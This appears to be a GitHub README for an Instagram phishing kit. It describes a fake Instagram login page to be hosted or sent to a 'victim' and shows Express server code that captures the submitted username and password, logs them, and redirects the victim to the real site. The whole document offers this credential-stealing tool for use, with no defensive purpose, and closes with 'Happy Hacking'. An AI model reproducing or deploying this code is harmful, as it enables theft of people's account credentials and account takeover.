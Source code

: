 # Hack Ig

Phish Instagram Account 

This will contain a server file and index file [ instagram login page ]



## Setup



Install node_modules

You should need node js and npm for running server

```javascript
npm install
```



Host or send html file [ index.html ]

you will get the username and password if victim enter details

```javascript
// code from server
app.get("/login", async(req, res) => {
  let username = await req.query.username;
  let password = await req.query.password;

  console.log(`${username} : ${password}`); // show username and password in console

  // do whatever with these
  
  res.redirect("http://instagram.com");//redirect as your wish
});
```



Happy Hacking 🐱‍💻